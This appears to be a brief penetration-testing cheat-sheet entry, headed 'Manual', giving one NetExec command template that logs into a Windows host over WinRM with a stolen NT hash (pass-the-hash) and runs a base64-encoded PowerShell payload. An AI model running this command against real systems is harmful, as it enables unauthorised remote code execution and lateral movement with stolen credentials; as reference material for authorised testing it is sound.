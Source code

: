 # Manual

## 01 - NetExec

```
$ netexec winrm <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```